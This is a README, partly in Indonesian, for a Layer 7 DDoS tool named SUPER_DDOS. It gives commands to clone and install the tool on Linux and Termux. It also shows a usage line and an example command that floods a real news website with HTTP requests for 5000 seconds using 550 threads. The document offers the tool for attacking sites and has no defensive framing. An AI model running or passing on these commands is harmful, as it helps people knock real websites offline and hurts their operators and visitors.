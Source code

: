 <h1 align="center">🧟‍♂️ DDOS Tool (Layer 7) </h1> 
<div align="center">
 
</div>


</p>


</p>

# 💻 Instalasi :




 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
$ sudo apt update
$ sudo apt install python3 python3-pip git -y
$ git clone https://github.com/Skyw4lkeR77/SUPER_DDOS
$ cd SUPER_DDOS/
$ pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
$ pkg update
$ pkg install python3 python3-pip git -y
$ git clone https://github.com/Skyw4lkeR77/SUPER_DDOS
$ cd SUPER_DDOS/
$ pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan :
Perintah untuk dapat menjalankan tool adalah sebagai berikut :

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Contoh :  

```
python3 ddos.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
